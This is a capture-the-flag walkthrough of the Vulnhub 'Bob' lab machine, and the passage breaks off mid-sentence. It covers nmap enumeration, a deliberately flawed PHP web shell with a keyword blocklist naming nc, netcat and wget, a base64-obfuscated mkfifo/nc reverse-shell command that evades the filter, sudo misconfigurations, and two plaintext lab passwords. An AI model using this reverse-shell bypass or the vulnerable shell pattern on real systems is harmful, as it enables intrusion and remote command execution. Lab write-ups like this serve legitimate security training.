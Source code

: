 Vulnhub - Bob

# Vulnhub - Bob
Starting enumeration, ran nmap with default scripts and service detection and found a HTML site running on TCP/80.
```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-13 15:08 -03                                                                                                                             
Nmap scan report for Milburg-High.mshome.net (172.17.11.83)
Host is up (0.00027s latency).                                                                
Not shown: 998 closed ports                                                                                                                                                                 
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5b                                                           
80/tcp open  http    Apache httpd 2.4.25 ((Debian))                                                                                                                                         
| http-robots.txt: 4 disallowed entries                                                       
| /login.php /dev_shell.php /lat_memo.html                                                                                                                                                  
|_/passwords.html                      
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Unix   
```
This site has 4 interesting entries, that were verified
- login.php, which doesn't exist anymore

- lat_memo.html, which contains the following message from BOB:
		
 > Memo sent at GMT+10:00 2:37:42 by User: Bob 
	Hey guys IT here don't forget to check your emails regarding the recent security breach. There is a web shell running on the server with no protection but it should be safe as I have ported over the filter from the old windows server to our new linux one. Your email will have the link to the shell.
	> -Bob

- passwords.html, which had the content below:   

  > Really who made this file at least get a hash of your password to display, hackers can't do anything with a hash, this is probably why we had a security breach in the first place. Comeon people this is basic 101 security! I have moved the file off the server. Don't make me have to clean up the mess everytime someone does something as stupid as this. We will have a meeting about this and other stuff I found on the server. >:( 
  > -Bob

- dev_shell.php, is a webshell

  - Simple commands like ls works properly, but some of then fail displaying some messages.

  - Leveraging the possibilities, used cat to display the content of the php page itself to understand its limitations (cat dev_shell.php)

    ```
    <html>
    		<body>
    		  <?php
    		//init
    		$invalid = 0;
    		$command = ($_POST['in_command']);
    		$bad_words = array("pwd","ls","netcat","ssh","wget","ping","traceroute","cat","nc");
    		?>
    		  <style>
    		    ...
    		  </style>
    		  <!-- WIP, don't forget to report any bugs we don't want another breach guys
    		  -Bob -->
    		  <div id="shell">
    		    <h2>
    		      dev_shell
    		    </h2>
    		    <form action="dev_shell.php" method="post">
    		      Command: <input type="text" name="in_command" /> <br>
    		      <input type="submit" value="submit">
    		    </form>
    		    <br>
    		    <h5>Output:</h5>
    		    <?php
    		system("running command...");
    		//executes system Command
    		//checks for sneaky ;
    		if (strpos($command, ';') !== false)
    		{
    		    system("echo Nice try skid, but you will never get through this bulletproof php code"); //doesn't work :P
    		}
    		else
    		{
    		    $is_he_a_bad_man = explode(' ', trim($command));
    		    //checks for dangerous commands
    		    if (in_array($is_he_a_bad_man[0], $bad_words))
    		    {
    		        system("echo Get out skid lol");
    		    }
    		    else
    		    {
    		        system($_POST['in_command']);
    		    }
    		}
    		?>
    		  </div>
    		    <img src="dev_shell_back.png" id="back" alt="">
    		</body>
    		</html>
    ```

  - The content shows, php code prevents execute of content containing: 

    - ";" which can allow multiple executions

    - Contains one of the "badwords"

      - "pwd","ls","netcat","ssh","wget","ping","traceroute","cat","nc"

    - Based on that, crafted the command, using base64 to decode  and run content, using this command was possible to get the reverse shell

      ```bash
      echo -n 'cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMudHJhZGl0aW9uYWwgMTcyLjE3LjkuMTMxIDQ0NDMgPi90bXAvZg==' | base64 -d | bash
      ```

  - After upgrading shell to get autocomplete by spawning a tty using python, started the enumeration. Found hidden file .hint containing the content below

    ```
    www-data@Milburg-High:/var/www/html$ cat .hint 
    Have you tried spawning a tty shell?
    Also don't forget to check for hidden files ;)
    ```

  - Executing LinEnum, noticed the following interesting stuff to privesc

    ```
    User www-data may run the following commands on Milburg-High:
    		(ALL) NOPASSWD: /usr/bin/service apache2 *
    		(root) NOPASSWD: /bin/systemctl start ssh
    ```

  - As Bob mentioned that he moved the old passwords.html file, used the following command to see if www-data would be able to read it from somewhere. Started from /home directory and we were lucky, getting two credentials

    ```bash
    $ cat /home/bob/.old_passwordfile.html
    <html>
        <p>
        jc:Qwerty
        seb:T1tanium_Pa$$word_Hack3rs_Fear_M3
        </p>
    </html>
    ```

  - From remote shell, was able to 


​		
